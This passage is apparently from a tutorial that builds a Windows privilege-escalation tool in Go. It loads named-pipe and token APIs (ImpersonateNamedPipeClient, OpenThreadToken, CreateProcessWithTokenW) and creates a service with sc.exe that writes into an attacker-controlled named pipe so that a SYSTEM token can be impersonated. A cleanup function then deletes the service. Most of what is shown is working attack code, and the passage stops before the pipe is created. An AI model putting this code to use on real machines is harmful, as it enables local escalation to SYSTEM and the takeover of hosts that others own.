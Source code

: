 Before starting with the magic we have to define the API calls we're going to use. (All following code is inside main function)

```go
// Parse Windows DLLs and API calls
kernel32 := windows.NewLazyDLL("kernel32.dll")
advapi32 := windows.NewLazyDLL("advapi32.dll")

CreateNamedPipeA := kernel32.NewProc("CreateNamedPipeA")
ConnectNamedPipe := kernel32.NewProc("ConnectNamedPipe")
GetCurrentThread := kernel32.NewProc("GetCurrentThread")
DisconnectNamedPipe := kernel32.NewProc("DisconnectNamedPipe")
ImpersonateNamedPipeClient := advapi32.NewProc("ImpersonateNamedPipeClient")
OpenThreadToken := advapi32.NewProc("OpenThreadToken")
CreateProcessWithTokenW := advapi32.NewProc("CreateProcessWithTokenW")
```

Now we create the service to automate the whole privesc process.

```go
// Define named pipe and service values
named_pipe := "\\\\.\\pipe\\" + pipe_name
service := "/R sc.exe create " + service_name + " binPath= \"cmd.exe /R type C:\\Windows\\win.ini > " + named_pipe + "\""

// Create service (run command)
c := exec.Command("cmd.exe")
c.SysProcAttr = &syscall.SysProcAttr{}
c.SysProcAttr.CmdLine = service

err = c.Run()
if err != nil { // Handle error
  log.Fatalf("error creating service: %s\n", err)
}
defer deleteService(service_name)
```

At the end of this piece of code we use the `deleteService` function to remove it before exiting so let's code it.

```go
// used with defer to remove it before exiting
func deleteService(svc_name string) {
  c := exec.Command("cmd.exe")
  c.SysProcAttr = &syscall.SysProcAttr{}
  c.SysProcAttr.CmdLine = "/R sc.exe delete " + svc_name
  _, err := c.Output()
  if err != nil {
    log.Fatalf("error deleting service: %s\n", err)
  }
}
```

Then we have to create the needed named pipe via CreateNamedPipeA() call
